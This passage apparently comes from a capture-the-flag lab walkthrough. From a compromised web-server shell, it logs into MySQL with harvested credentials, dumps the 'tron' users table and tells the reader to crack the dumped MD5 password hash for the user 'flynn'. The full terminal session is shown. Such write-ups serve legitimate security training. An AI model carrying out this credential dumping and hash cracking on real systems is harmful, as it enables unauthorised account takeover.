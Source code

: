 >>USE THOSE CREDS TO LOGIN TO THE MYSQL SERVER.USE "show databases;" COMMAND TO SEE WHAT ARE THE DATABASES IN THE SERVER.THEN "use tron" TO USE THAT DATABASE, THEN USE "show tables" TO SEE WHAT ARE THE TABLES AVAILABLE IN THE DATABASE.NOW USE "SELECT * FROM users" THIS SQL QUERY TO GET THE INFO IN THE USERS IN THE TABLE.DECODE THE MD5 HASH TO GET PASSWORD TO LOGIN WITH THE USER "FLYNN".  

```
www-data@light-cycle:/var/www/TheGrid/includes$ mysql -utron -p 
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 4
Server version: 5.7.32-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| tron               |
+--------------------+
2 rows in set (0.00 sec)

mysql> use tron
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------+
| Tables_in_tron |
+----------------+
| users          |
+----------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | flynn    | edc621628f6d19a13a00fd683f5e3ff7 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)
```
